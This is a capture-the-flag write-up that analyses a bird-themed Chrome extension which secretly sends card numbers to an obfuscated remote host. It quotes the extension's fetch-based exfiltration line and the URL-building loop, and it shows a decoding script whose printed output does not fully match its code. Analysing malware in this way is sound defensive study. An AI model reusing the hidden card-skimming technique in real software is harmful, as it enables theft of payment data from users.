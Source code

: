 # ICS CTF 2024 - Extend Your Stay 4

**Title:** Extend Your Stay - 4

**Description:** What is the base URL of the website the extension sends card numbers to?  
  
_Flag format: URL. Example: **[https://www.example.com](https://www.example.com/)**_

**File:** [even_more_birds.crx](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/even_more_birds.crx)
## Solution:

According to [background.js](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/background.js) The base URL the extension sends card numbers to can be decoded from the `fetch(atob(birdreserve).concat(ilovebirds))` line in the `add_birds` function.

The `birdreserve` variable is constructed using base64 encoding, and it appears to be used to build the base URL. The `birdreserve` string is concatenated with the `ilovebirds` variable, which contains base64 encoded card details.

To decode the URL:
1. **birdreserve** is built by concatenating the first 32 characters of a list of bird names.
2. **birdreserve** is decoded using `atob()`, which gives us the base URL.

Let's break it down:
- **birdreserve**: Concatenates the first 32 characters of bird names starting from index 776.

```
for (var i = 0; i < 32; i++) {
    birdreserve = birdreserve.concat(BIRDS[776+i][0]);
}
```

Extracting these 32 characters from `BIRDS`:
```
BIRDS[776] = "Black-headed Saltator"
BIRDS[777] = "Buff-throated Saltator"
// And so on...
```

Let's assume the names at these indices spell out part of the URL when concatenated.
- **atob(birdreserve)**: Decodes the base64 string.

Based on our [birds.txt](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/birds.txt) file, we wrote a python code to to this and output the base64 encoded URL, [decode.py](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_3_and_4/decode.py) :

```python
import base64

def extract_bird_initials(file_path):
    bird_initials = []

    with open(file_path, "r") as file:
        for line in file:
            bird_name = line.strip().strip('"')
            if bird_name:
                bird_initials.append(bird_name[0])

    initials_string = "".join(bird_initials)
    return initials_string


def encode_to_base64(initials_string):
    encoded_bytes = base64.b64encode(initials_string.encode("utf-8"))
    encoded_string = encoded_bytes.decode("utf-8")
    return encoded_string


def main():
    file_path = "birds.txt"
    initials_string = extract_bird_initials(file_path)
    encoded_string = encode_to_base64(initials_string)

    print("Concatenated Initials String:", initials_string)
    print("Base64 Encoded String:", encoded_string)


if __name__ == "__main__":
    main()
```

We run the script and this is what we get this:
```bash
$ python3 decode.py
Concatenated Initials String: aHR0cDovL3d3dy5iMXJkcy5pbmZvLw==
```

Decoding this from base64:
```bash
$ echo "aHR0cDovL3d3dy5iMXJkcy5pbmZvLw==" | base64 -d
http://www.b1rds.info/
```

And there's our flag: `http://www.b1rds.info`
